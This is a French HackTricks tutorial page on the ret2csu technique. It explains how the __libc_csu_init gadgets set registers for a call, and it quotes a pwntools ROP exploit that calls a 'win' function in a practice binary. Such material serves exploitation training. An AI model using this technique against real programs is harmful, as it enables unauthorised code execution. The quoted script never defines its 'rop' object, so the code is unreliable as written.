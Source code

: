 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**ret2csu** est une technique de hacking utilisée lorsque vous essayez de prendre le contrôle d'un programme mais que vous ne pouvez pas trouver les **gadgets** que vous utilisez habituellement pour manipuler le comportement du programme.&#x20;

Lorsqu'un programme utilise certaines bibliothèques (comme libc), il dispose de certaines fonctions intégrées pour gérer la façon dont différentes parties du programme communiquent entre elles. Parmi ces fonctions, il y a quelques pépites cachées qui peuvent agir comme nos gadgets manquants, en particulier un appelé `__libc_csu_init`.

### The Magic Gadgets in \_\_libc\_csu\_init

Dans `__libc_csu_init`, il y a deux séquences d'instructions (nos "gadgets magiques") qui se démarquent :

1. La première séquence nous permet de configurer des valeurs dans plusieurs registres (rbx, rbp, r12, r13, r14, r15). Ce sont comme des emplacements où nous pouvons stocker des nombres ou des adresses que nous voulons utiliser plus tard.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Ce gadget nous permet de contrôler ces registres en dépilant des valeurs de la pile dans ceux-ci.

2. La deuxième séquence utilise les valeurs que nous avons configurées pour faire quelques actions :
* **Déplacer des valeurs spécifiques dans d'autres registres**, les rendant prêtes à être utilisées comme paramètres dans des fonctions.
* **Effectuer un appel à un emplacement** déterminé en additionnant les valeurs dans r15 et rbx, puis en multipliant rbx par 8.
```
mov rdx, r14;
mov rsi, r13;
mov edi, r12d;
call qword [r15 + rbx*8];
```
## Exemple

Imaginez que vous souhaitiez effectuer un syscall ou appeler une fonction comme `write()` mais que vous ayez besoin de valeurs spécifiques dans les registres `rdx` et `rsi` en tant que paramètres. Normalement, vous chercheriez des gadgets qui définissent ces registres directement, mais vous ne pouvez en trouver aucun.

Voici où **ret2csu** entre en jeu :

1. **Configurer les Registres** : Utilisez le premier gadget magique pour extraire des valeurs de la pile et les placer dans rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) et r15.
2. **Utiliser le Deuxième Gadget** : Avec ces registres configurés, vous utilisez le deuxième gadget. Cela vous permet de déplacer vos valeurs choisies dans `rdx` et `rsi` (à partir de r14 et r13, respectivement), préparant les paramètres pour un appel de fonction. De plus, en contrôlant `r15` et `rbx`, vous pouvez faire en sorte que le programme appelle une fonction située à l'adresse que vous calculez et placez dans `[r15 + rbx*8]`.

Vous avez un [**exemple utilisant cette technique et l'expliquant ici**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), et voici l'exploit final qu'il a utilisé :
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Notez que l'exploit précédent n'est pas destiné à faire un **`RCE`**, il est juste destiné à appeler une fonction appelée `win` (prenant l'adresse de `win` depuis stdin appelant gets dans la chaîne ROP et la stockant dans r15) avec un troisième argument ayant la valeur `0xdeadbeefcafed00d`.
{% endhint %}

### Pourquoi ne pas simplement utiliser libc directement ?

Généralement, ces cas sont également vulnérables à [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/), mais parfois vous devez contrôler plus de paramètres que ceux qui peuvent être facilement contrôlés avec les gadgets que vous trouvez directement dans libc. Par exemple, la fonction `write()` nécessite trois paramètres, et **trouver des gadgets pour définir tous ceux-ci directement peut ne pas être possible**.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
